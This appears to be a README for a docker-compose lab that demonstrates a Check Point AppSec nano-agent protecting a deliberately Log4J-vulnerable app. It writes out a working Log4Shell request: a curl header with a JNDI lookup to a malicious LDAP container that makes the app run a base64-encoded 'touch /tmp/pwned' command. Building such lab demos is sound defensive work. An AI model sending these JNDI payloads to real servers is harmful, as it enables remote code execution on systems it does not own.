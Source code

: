 # Check Point CloudGuard AppSec demo
 
 This is a simple docker-compose environment for deploy a Check Point AppSec embedded nano-agent demo.  
 It will deploy 4 containers, an NGINX reverse proxy, an agent-container (the nano-agent), Log4J vulnerable App and Attacker with malicious LDAP.
 The LDAP malicious server is builded at moment the creation.

You will reach all the Vulnerable application with the exposed 8080 port from the NGINX server, the default.conf file already redirects all the request to the app.

## Instructions:
 
* Clone the repository
* From a machine with docker and docker-compose installed, run:  
`  export TOKEN=<your agent token>`  
`  docker-compose up `  
`  from another machine run "curl "docker host ip address":8080" and if you recieve "status":400,"error":"Bad Request","path":"/" as response, the server is properly listening`
`  from the same machine now run "curl "docker host ip address":8080 -H 'X-Api-Version: ${jndi:ldap://malicious:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo=}'" this last request inject the LDAP call in the log and the Log4J vulnerable dependency try to execute it, connecting to the malicious server and executing a "touch /tmp/pwned" command`
`  in the docker host we can run "docker ps" and look for a container with the name log4shell-log4shell grab the ID and run "docker logs -f "ID of container"" you will see the logs of the server when executes the command`
`  in the docker host again we can run with the same container ID 'docker exec "ID of container" ls /tmp/' and you will see the file created by the attack`
`  docker-compose down `  
 

> Notes: 
> There are two ways to run docker compose: `docker-compose` and `docker compose`. Using `docker compose` (with a space, not a hyphen) is 'experimental' from a Docker perspective and seems to decide on its own value for IPC configuration and breaks this setup. Use `docker-compose` please :).
> I you want to learn more about the Reverse Proxy, you can see the 'default' file inside the /nginx-reverse-proxy folder, this is mounted to the container to provide Host Rules and Ingress Routes
